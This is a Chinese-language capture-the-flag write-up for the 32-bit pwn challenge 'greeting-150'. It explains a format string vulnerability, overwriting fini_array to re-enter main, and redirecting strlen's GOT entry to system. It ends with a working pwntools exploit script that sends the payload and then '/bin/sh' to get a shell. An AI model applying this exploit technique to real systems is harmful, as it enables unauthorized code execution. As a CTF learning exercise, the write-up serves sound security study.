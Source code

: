 # greeting-150  
32位程序，没开RELRO，说明1可以淦got表，没开pie说明可以随便打    
![](./pics/chc.png)  
在main函数中存在格式化字符串漏洞，可以实现任意地址写  
## 解题思路  
由于程序中存在system函数，可以想让strlen.got处的值变为system.plt，就能在调用strlen时实际调用system函数了  
但是由于执行到格式化字符串后程序直接退出了，因此需要让程序执行完main后重新回到main函数开头  
为此我们需要先知道main函数的调用过程  
在start函数中，会有init_array与fini_array两个数组，他们都保存着一些函数的地址，并且在调用main之前依次调用init_array中的函数，并在main函数结束后依次调用fini_array中的函数  
![](./pics/start.png)  
![](./pics/init_fini_array.png)  
使用pwndbg查看  
![](./pics/fini_in_gdb.png)
因此把fini_array中的函数地址改为main函数地址（最后一字节改为0xed即可）后就能重复调用main了，这种做法感觉挺有用，需要额外注意一下。  
## 解题过程  
首先payload需要有2字节进行对齐（字符串s的开头是Nice to meet you, ），调试后发现第一个参数对应的索引为12，后面都没什么难度，直接放改完后的情况  
![](./pics/finish1.png)  
![](./pics/finish2.png)  
PS:这里很多博客都在人云亦云，说什么一定要按填充字符数从小到大的顺序，其实并不需要，我这里注释掉的部分和实际写的部分就是可以互相替换的。  
```
from pwn import *
context.log_level = 'debug'

if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./greeting-150')
    elf = ELF('./greeting-150')
else:
    p = remote('61.147.171.105', 51865)
    elf = ELF('./greeting-150') 
    pause()
p.recvuntil(b'name... ')
pause()
# 字符串起始位置对应第12个参数
fini_got=0x8049934
getlen_got=0x8049a54
# payload=b'aa'
# payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
# payload+=b'%205c%12$hhn%1815c%13$hn%31884c%14$hn'
payload=b'aa'
payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
payload+=b'%205c%12$hhn%33699c%14$hn%33652c%13$hn'

p.sendline(payload)
p.recvuntil(b'name... ')
p.sendline(b'/bin/sh\x00')

p.interactive()
```